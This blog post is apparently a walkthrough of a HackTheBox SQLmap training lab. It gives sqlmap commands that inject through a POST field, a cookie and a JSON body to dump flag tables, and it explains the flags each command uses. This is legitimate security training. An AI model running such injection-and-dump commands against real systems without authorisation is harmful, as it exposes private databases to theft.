 ```yaml
---
title: "SQLmap Essentials - HackTheBox"
date: 2025-01-07 00:00:00 +0300
categories: [SQLmap Essentials]
tags: [SQLmap Essentials, cheatsheet, HackTheBox]
---
```



# SQLmap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

I enjoyed this lab very much. I am running an SQLmap payload on the final skill assessment question which is currently taking too long 🥱 so I thought that I'd have to write this blog.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 ![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials1.png)



Questions:


`1. What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

`sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2` 

From the command:


    --data - speecifies that the HTTP data provided should be sent in a POST request.

    id=*1 - This is the parameter of interest. The asterisk is a custom injection marker. 

    --batch - allows the running of the command without any user input.

    --dump - displays data from a specified database table.

    -T - specifies database table.


`2. What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

`sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3`

From the command:

    --cookie - specifies the HTTP cookies that should be sent with the POST requests.


`3. What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials2.png)


`sqlmap -r req.txt  --batch --dump  -T flag4 `

While it is applicable in this lab, we may also use the following command.

`sqlmap -u 'http://94.237.50.242:49319/case4.php'  --data={'"id":1'} --batch --dump  -T flag4`




